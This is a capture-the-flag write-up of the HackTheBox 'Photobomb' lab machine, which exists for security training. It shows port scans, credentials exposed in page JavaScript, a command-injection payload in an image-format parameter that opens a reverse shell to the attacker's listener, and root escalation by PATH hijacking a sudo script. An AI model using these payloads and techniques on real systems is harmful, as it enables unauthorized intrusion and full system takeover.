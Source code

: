 ```yaml
---
description: Photobomb box from HackTheBox write up.
---
```


# Photobomb

## Nmap

As usual a Nmap scan to know what we can do here:

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap --min-rate 1000 -p- 10.10.11.182
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-29 10:54 CET
Nmap scan report for 10.10.11.182
Host is up (0.063s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 42.14 seconds
```

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV -p 22,80 10.10.11.182   
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-29 10:57 CET
Nmap scan report for 10.10.11.182
Host is up (0.055s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://photobomb.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.78 seconds
```

Only two ports, let's check that website. I can see that it is redirecting to `photobomb.htb` so I added it to my `hosts` file.

## Port 80

### Initial access

The site shows a really simple landing page and looks like there is another directory `/printer` that it is protected with a user and a password. Looking around I found this Javascript file:

```js
// http://photobomb.htb/photobomb.js
function init() {
  // Jameson: pre-populate creds for tech support as they keep forgetting them and emailing me
  if (document.cookie.match(/^(.*;)?\s*isPhotoBombTechSupport\s*=\s*[^;]+(.*)?$/)) {
    document.getElementsByClassName('creds')[0].setAttribute('href','http://pH0t0:b0Mb!@photobomb.htb/printer');
  }
}
window.onload = init;
```

We have credentials now! `pH0t0:b0Mb!`.

### RCE and reverse shell

The `/printer` directory allows the user to download different pictures with the quality and format that it selected. Playing a bit with the parameters I noticed that I was able to get code execution introducing the characters `&&` at the end of the parameter used for the image format:

<p align="center"><img alt="Testing the RCE vulnerability using the ping command and tcpdump" src="/assets/images/HackTheBox/Photobomb/commandInjection.jpg"></p>

Using the next payload I was able to get a reverse shell as the user `wizard`:

```
photo=mark-mc-neill-4xWHIpY2QcY-unsplash.jpg&filetype=jpg%26%26%2Fbin%2Fbash%20-c%20"%2Fbin%2Fbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.24%2F8000%200%3E%261"&dimensions=300x200
```

## Privesc

To be honest this part was pretty easy, I found that our user is able to execute `/opt/cleanup.sh` as the `root` user and it can also specify environment variables:

```bash
wizard@photobomb:~$ sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
```

Checking the script I quickly found that in the last line the `find` command is not using an absolute path:

```bash
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```

Since we are capable of injecting environment variables while executing the script with `sudo`, we can just create a script to execute a shell in our home directory called `find` and add our home directory to the `PATH` environment variable. This way, when we run the script with `sudo`, we will get a new shell as `root` once the script reaches the `find` command:

```bash
wizard@photobomb:~$ cat find 
#! /bin/bash

bash
wizard@photobomb:~$ sudo PATH="/home/wizard:$PATH" /opt/cleanup.sh
root@photobomb:/home/wizard/photobomb# id
uid=0(root) gid=0(root) groups=0(root)
```

